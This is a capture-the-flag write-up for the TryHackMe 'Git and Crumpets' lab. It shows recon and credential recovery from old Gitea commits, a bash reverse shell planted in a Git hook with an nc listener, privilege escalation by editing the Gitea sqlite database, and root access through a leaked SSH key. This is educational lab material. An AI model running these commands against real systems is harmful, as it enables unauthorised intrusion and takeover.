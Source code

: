 # Git and Crumpets

Our devs have been clamoring for some centralized version control, so the admin came through. Rumour has it that they included a few countermeasures...

<img align="right" src="https://github.com/matthernet/Writeups/blob/main/TryHackMe/Room/gitandcrumpets/gitandcrumpets01.png" width="150" height="150">

LINK = [https://tryhackme.com/room/gitandcrumpets](https://tryhackme.com/room/gitandcrumpets)

### FYI
This writeup doesn't include any passwords/cracked hashes/flags

# Description
Our devs have been clamoring for some centralized version control, so the admin came through. Rumour has it that they included a few countermeasures...

# Steps

1 - Scan the machine to discover how many ports are open
* ```nmap -sV <ip-virtual-machine>```

<img src="https://github.com/matthernet/Writeups/blob/main/TryHackMe/Room/gitandcrumpets/gitandcrumpets02.png" width="50%">

* If you access the target IP you will be redirected to one of the greatest song ever written :smile:

2 - Analyzing the web response we can see that there is an URL for devs called ```git.git-and-crumpets.thm```
* ```curl <ip-virtual-machine>```

<img src="https://github.com/matthernet/Writeups/blob/main/TryHackMe/Room/gitandcrumpets/gitandcrumpets03.png" width="50%">

* To access first you will need to add the URL to the hosts file 

* ```echo "<ip-virtual-machine> git.git-and-crumpets.thm" > /etc/hosts```

3 - Access the URL will take you to the login and we can create an account ```http://git.git-and-crumpets.thm/user/sign_up```

<img src="https://github.com/matthernet/Writeups/blob/main/TryHackMe/Room/gitandcrumpets/gitandcrumpets04.png" width="50%">

3 - Explore the old commits from the repositories and you will find sensitive information that will allow you to login into the app with more privileges

<img src="https://github.com/matthernet/Writeups/blob/main/TryHackMe/Room/gitandcrumpets/gitandcrumpets05.png" width="50%">

4 -  Once you are logged in you will be able to access the settings of the repository, using the ```Git Hooks``` function you will be able to create a reverse shell

* Start listening in your attack machine ```nc -lvnp <choose-a-port>```

* Edit the first ```Git Hooks``` and add the following code ```bash -i >& /dev/tcp/<your-ip-address>/<port> 0>&1```

<img src="https://github.com/matthernet/Writeups/blob/main/TryHackMe/Room/gitandcrumpets/gitandcrumpets06.png" width="50%">

* Now to trigger the hook go to the repository and make any random modification to any file and BOOM! you got the reverse shell

<img src="https://github.com/matthernet/Writeups/blob/main/TryHackMe/Room/gitandcrumpets/gitandcrumpets07.png" width="50%">

5 - Find the user flag file (the flag will be in base64 so you can use ```cat user.txt | base64 -d```)

6 - Exploring around the application directory ```/var/lib/gitea/``` you will find the database with the users, modify the permissions from our user to ```admin```

* ```sqlite3 /var/lib/gitea/data/gitea.db```
* ```UPDATE user SET is_admin=1 WHERE id=3;```

7 - Go back to the webapp and you will discover a new repository

<img src="https://github.com/matthernet/Writeups/blob/main/TryHackMe/Room/gitandcrumpets/gitandcrumpets08.png" width="50%">

* Explore the old commits from that repo and you will find the root ssh key
* Save that key in a file called id_rsa
* Grant the necessary permissions ```chmod 600 id_rsa```
* ```ssh -i id_rsa root@<ip-target-machine>```
* The passphrase for the key is around the files and commits 😉
* Find the root flag file (the flag will be in base64 so you can use ```cat root.txt | base64 -d```)

8 - Get the root flag!! 😎
